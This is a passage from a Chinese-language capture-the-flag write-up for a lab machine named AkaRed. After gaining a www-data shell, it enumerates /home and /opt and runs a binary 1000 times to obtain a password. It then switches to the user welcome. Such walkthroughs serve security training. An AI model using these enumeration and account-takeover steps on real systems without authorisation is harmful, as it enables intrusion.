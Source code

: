   ```bash
  www-data@AkaRed:/var/www/html$ ls /home/
  welcome
  ```

  确认存在用户 `welcome`。

* **检查 `/opt` 目录:**

  ```bash
  www-data@AkaRed:/opt$ ls -al
  total 32
  # ...
  -rwxr-xr-x  1 root root 16912 Apr 11 06:41 showmepassword
  ```

  发现一个名为 `showmepassword` 的可执行文件。

* **运行 `showmepassword`:**

  ```bash
  www-data@AkaRed:/opt$ ./showmepassword 
  input to /tmp/xxoo
  when input 1000 count. u will get password.
  now it is 1 count.
  ```

  程序提示需要运行 1000 次才能获得密码。

* **编写脚本运行 1000 次:**

  ```bash
  www-data@AkaRed:/opt$ for i in {1..1000}; do ./showmepassword; done
  # ... (大量输出省略) ...
  input to /tmp/xxoo
  when input 1000 count. u will get password.
  now it is 998 count.
  input to /tmp/xxoo
  when input 1000 count. u will get password.
  d2VsY2  # <-- 获取到密码片段
  input to /tmp/xxoo
  when input 1000 count. u will get password.
  d2VsY2
  input to /tmp/xxoo
  when input 1000 count. u will get password.
  d2VsY2
  ```

  在接近 1000 次时，程序输出了字符串 `d2VsY2`。这很可能是 `welcome` 用户的密码。

### 3.2. 切换用户 (Switching User)

使用从 `showmepassword` 获取的密码 `d2VsY2` 尝试切换到 `welcome` 用户。

```bash
www-data@AkaRed:/opt$ su welcome
Password: <在此输入 'd2VsY2'>
welcome@AkaRed:/opt$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```
